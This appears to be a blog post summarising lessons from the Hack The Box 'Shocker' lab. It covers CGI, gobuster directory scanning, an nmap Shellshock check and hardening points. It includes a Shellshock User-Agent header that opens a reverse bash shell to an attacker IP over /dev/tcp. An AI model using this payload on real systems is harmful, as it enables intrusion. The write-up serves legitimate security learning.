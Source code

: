 ```yaml
---
layout: single
title: "Shocker - HTB"
permalink: /shocker/
tags: [HTB, Bash, Shellshock]
toc: true
---
```

Instead doing a writeup I have opted to write a summary of the things that I learnt from solving the Shocker box of Hack The Box.

## Cgi-Bin

In computing, Common Gateway Interface (CGI) is an interface specification for web servers to execute programs like console applications (also called command-line interface programs) running on a server that generates web pages dynamically.  Such programs are known as CGI scripts or simply as CGIs.

Shellshock Script vulnerability affected web servers utilizing CGI

The path to "cgi-bin" directory is: `/var/www/html/ex/example.com/cgi-bin`
On Ubuntu, the standard cgi-bin directory is `/usr/lib/cgi-bin`.

## Gobuster -f

Sometimes a directory bursting tool may fail to list directories mainly because of restrition put on the files and directories. In such cases the webserver responds back with 403 status code, Indicating directory exist but you dont have permission to access it. A quick way to sort out this issue is by using the "-f" flag if the tool used was gobuster.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56 -f
```
For quick discovery of files one can add the files extensions usinf the "-x" flag.

```python
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,pl
```
To list the file extensions 

## Shellshock Script / Bash Bug

ACE(arbitrary code execution) vulnerability attacks are executed on programs that are running, and require a highly sophisticated understanding of the internals of code execution, memory layout, and assembly language—in short, this type of attack requires an expert.

![upload-image]({{ "/assets/imgs/notes/shellshock.png" | relative_url }})

```python
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.15/4444 0>&1
```

To find out whether a target is vulnerable to shellshock, we use a nmap script.

```python
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

## Points to note

* Web server misconfiguration. one isn't allowed to access the /cgi-bin directory but is allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.
* The system was running a version of Bash that was vulnerable to the bash bug. This gave us initial foothold. Administrator should have patched the system since there is a patch already out there.
* Insecure system configuration. Administrators should conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed easy priviledge escalation of the system.